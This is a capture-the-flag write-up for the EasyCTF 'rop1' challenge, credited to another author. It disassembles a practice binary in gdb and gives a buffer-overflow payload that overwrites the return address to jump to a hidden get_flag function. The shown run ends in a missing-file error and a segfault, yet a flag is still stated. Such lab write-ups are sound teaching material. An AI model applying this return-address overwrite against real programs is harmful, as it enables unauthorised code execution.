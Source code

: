 # rop1

EasyCTF - Disclaimer(("This writeup is from KosBeg's https://github.com/KosBeg/ctf-writeups/blob/master/EasyCTF_IV/rop1/README.md"))

<Filelink - https://github.com/KosBeg/ctf-writeups/blob/master/EasyCTF_IV/rop1/rop1>

"Go to /problems/rop1 on the shell server and tell me whats in flag.txt.
File"

Found an .ELF file :
```
blaccmail@localhost:~/Downloads$ ./rop1
aaaaaaaaaaaaaaaa
You said: aaaaaaaaaaaaaaaa
blaccmail@localhost:~/Downloads$ 
```

running wont do any help, so i tried to disassemble it:
```
blaccmail@localhost:~/Downloads$ gdb rop1
(gdb) set disassembly-flavor intel
(gdb) b main
Breakpoint 1 at 0x40068d
(gdb) run
Starting program: /home/blaccmail/Downloads/rop1 

Breakpoint 1, 0x000000000040068d in main ()
(gdb) 
```
first i need to disass the main:
```
(gdb) disass main
Dump of assembler code for function main:
   0x0000000000400689 <+0>:	push   rbp
   0x000000000040068a <+1>:	mov    rbp,rsp
=> 0x000000000040068d <+4>:	sub    rsp,0x20
   0x0000000000400691 <+8>:	mov    DWORD PTR [rbp-0x14],edi
   0x0000000000400694 <+11>:	mov    QWORD PTR [rbp-0x20],rsi
   0x0000000000400698 <+15>:	call   0x400530 <getegid@plt>
   0x000000000040069d <+20>:	mov    DWORD PTR [rbp-0x4],eax
   0x00000000004006a0 <+23>:	mov    edx,DWORD PTR [rbp-0x4]
   0x00000000004006a3 <+26>:	mov    ecx,DWORD PTR [rbp-0x4]
   0x00000000004006a6 <+29>:	mov    eax,DWORD PTR [rbp-0x4]
   0x00000000004006a9 <+32>:	mov    esi,ecx
   0x00000000004006ab <+34>:	mov    edi,eax
   0x00000000004006ad <+36>:	call   0x4004e0 <setresgid@plt>
   0x00000000004006b2 <+41>:	mov    eax,0x0
   0x00000000004006b7 <+46>:	call   0x400657 <get_input>
   0x00000000004006bc <+51>:	mov    eax,0x0
   0x00000000004006c1 <+56>:	leave  
   0x00000000004006c2 <+57>:	ret    
End of assembler dump.
(gdb) 
```
As we can see that the program is using return instruction (and the chalange title is rop(return oriented programming)) i surmise that we need to manipulate the return instruction to call a function for printing the flag. Then we need to see the list of functions in this program.

```
--------------------
(gdb) info functions
--------------------
All defined functions:

File ../bits/stdlib-bsearch.h:
void *__GI_bsearch(const void *, const void *, size_t, size_t, __compar_fn_t);

File ../csu/init-first.c:
void __libc_init_first(int, char **, char **);
void _dl_start(void);
void _init(int, char **, char **);

File ../csu/libc-start.c:
int __libc_start_main(int (*)(int, char **, char **), int, char **, int (*)(int, char **, 
    char **), void (*)(void), void (*)(void), void *);
......

#press enter until u get

Non-debugging symbols:
0x00000000004004b0  _init
0x00000000004004e0  setresgid@plt
0x00000000004004f0  system@plt
0x0000000000400500  printf@plt
0x0000000000400510  __libc_start_main@plt
0x0000000000400520  gets@plt
0x0000000000400530  getegid@plt
0x0000000000400550  _start
0x0000000000400580  deregister_tm_clones
0x00000000004005c0  register_tm_clones
0x0000000000400600  __do_global_dtors_aux
---Type <return> to continue, or q <return> to quit---
0x0000000000400620  frame_dummy
0x0000000000400646  get_flag    <-----Holy Grail
0x0000000000400657  get_input
0x0000000000400689  main
0x00000000004006d0  __libc_csu_init
0x0000000000400740  __libc_csu_fini
0x0000000000400744  _fini
```

Okey! so we found a very suspicious function so lets check it out:
```
(gdb) disass get_flag
Dump of assembler code for function get_flag:
   0x0000000000400646 <+0>:	push   rbp
   0x0000000000400647 <+1>:	mov    rbp,rsp
   0x000000000040064a <+4>:	mov    edi,0x400754  <----- this one tells to print the flag
   0x000000000040064f <+9>:	call   0x4004f0 <system@plt>
   0x0000000000400654 <+14>:	nop
   0x0000000000400655 <+15>:	pop    rbp
   0x0000000000400656 <+16>:	ret    
End of assembler dump.
(gdb) 
```
Now we need to manipulate the return address to call the function above. To do that, we start from overflowing the input variable, rbp register, so we can get to the return instruction to input our exploit:

```
------------------------------------------------------------------------------------
python -c "print 'a'*(64) + '\x00\x00\x00\x00\x00\x00\x00\x00\x46\x06\x40'" | ./rop1
------------------------------------------------------------------------------------
- 8x \x00 -> to overflow register

OR

------------------------------------------------------------------------------------
python -c "print 'a'*(64+8) + '\x46\x06\x40'" | ./rop1
------------------------------------------------------------------------------------
- 64 -> overflow input var
- 8 -> overflow register
- \x46\x06\x40 -> get_flag function start address
```
The flag is found :
```
blaccmail@localhost:~/Downloads$ python -c "print 'a'*(64) + '\x00\x00\x00\x00\x00\x00\x00\x00\x46\x06\x40'" | ./rop1
You said: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
/bin/cat: flag.txt: No such file or directory
Segmentation fault
```
# Flag : easyctf{r0ps_and_h0ps}
